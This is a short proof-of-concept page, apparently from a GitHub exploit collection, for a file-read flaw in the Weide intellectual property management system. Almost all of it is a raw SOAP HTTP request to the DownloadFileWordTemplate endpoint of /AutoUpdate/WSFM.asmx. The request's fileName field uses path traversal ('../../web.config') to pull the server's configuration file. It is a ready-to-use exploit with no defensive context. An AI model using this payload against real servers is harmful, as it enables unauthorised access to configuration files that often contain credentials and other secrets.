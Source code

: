 # weide_DownloadFileWordTemplate_fileread

```
POST /AutoUpdate/WSFM.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownloadFileWordTemplate"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownloadFileWordTemplate xmlns="http://tempuri.org/">
      <fileName>../../web.config</fileName>
    </DownloadFileWordTemplate>
  </soap:Body>
</soap:Envelope>
```

from: https://github.com/wy876/POC/blob/main/%E5%94%AF%E5%BE%B3%E7%9F%A5%E8%AF%86%E4%BA%A7%E6%9D%83%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F/%E5%94%AF%E5%BE%B3%E7%9F%A5%E8%AF%86%E4%BA%A7%E6%9D%83%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9FDownloadFileWordTemplate%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
